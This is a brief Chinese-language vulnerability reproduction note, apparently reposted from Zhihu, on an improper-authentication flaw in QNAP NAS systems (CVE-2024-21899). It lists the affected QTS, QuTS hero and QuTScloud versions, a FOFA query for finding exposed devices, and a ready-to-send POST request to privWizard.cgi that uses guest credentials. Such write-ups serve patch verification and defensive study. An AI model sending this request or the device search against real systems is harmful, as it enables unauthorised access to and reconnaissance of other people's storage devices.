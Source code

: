 ### 漏洞描述

QNAP操作系统版本身份验证不当漏洞。@Date：2024-03-09

### 漏洞影响

[QTS](https://zhida.zhihu.com/search?content_id=241044038&content_type=Article&match_order=1&q=QTS&zhida_source=entity) 5.x

QTS 4.5.x

[QuTS hero](https://zhida.zhihu.com/search?content_id=241044038&content_type=Article&match_order=1&q=QuTS+hero&zhida_source=entity) h5.x

QuTS hero h4.5.x

[QuTScloud](https://zhida.zhihu.com/search?content_id=241044038&content_type=Article&match_order=1&q=QuTScloud&zhida_source=entity) c5.x

myQNAPcloud 1.0.x

### 网络空间测绘（[FOFA](https://zhida.zhihu.com/search?content_id=241044038&content_type=Article&match_order=1&q=FOFA&zhida_source=entity)）

app="QNAP-NAS"

### 漏洞复现

### 漏洞目标：

https://127.0.0.1/cgi-bin/priv/privWizard.cgi

### 漏洞请求：

```text
POST /cgi-bin/priv/privWizard.cgi HTTP/2
Host: 127.0.0.1
User-Agent: curl/8.6.0
Accept: */*
Content-Length: 50
Content-Type: application/x-www-form-urlencoded

wiz_func=start_2sv&action=none&user=guest&pwd=none
```

![img](QNAP%20NAS%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BC%BA%E5%A4%B1%E6%BC%8F%E6%B4%9ECVE-2024-21899.assets/v2-9c189aae7204a2f6c810d9b4143ca61c_1440w.jpg)



存在漏洞的主机会返回系统信息，包括版本、补丁号等……